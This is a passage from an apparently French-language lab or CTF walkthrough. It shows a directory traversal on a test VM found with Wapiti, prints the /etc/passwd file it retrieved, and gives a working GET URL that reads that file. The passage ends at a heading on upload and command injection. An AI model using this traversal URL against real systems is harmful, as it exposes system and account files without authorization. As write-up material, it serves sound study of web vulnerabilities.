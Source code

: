 L'option `--detailed-report` permet d'inclure l'output des requêtes dans le rapport généré par Wapiti. On peu ainsi voir que l'accès au fichier `/etc/passwd` a bien réussi :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
```

Un autre payload a détecté la vulnérabilité par le biais d'un message d'erreur mentionnant `fopen()`. Nous ne sommes donc pas en présence d'une faille d'inclusion, juste d'un directory traversal.

La vulnérabilité fonctionne aussi en GET, ainsi on peut plus aisément regarder le contenu des fichiers (on chargera par exemple http://192.168.242.135/index.php?page=ssp.php&text_file_name=/etc/passwd&B=Display+File ).

J'ai fouillé un peu cette histoire de port-knowking et je n'ai trouvé aucun des utilisateurs disposant du fameux `profile.tar.gz` dans son home.

## Upload arbitraire et injection de commande
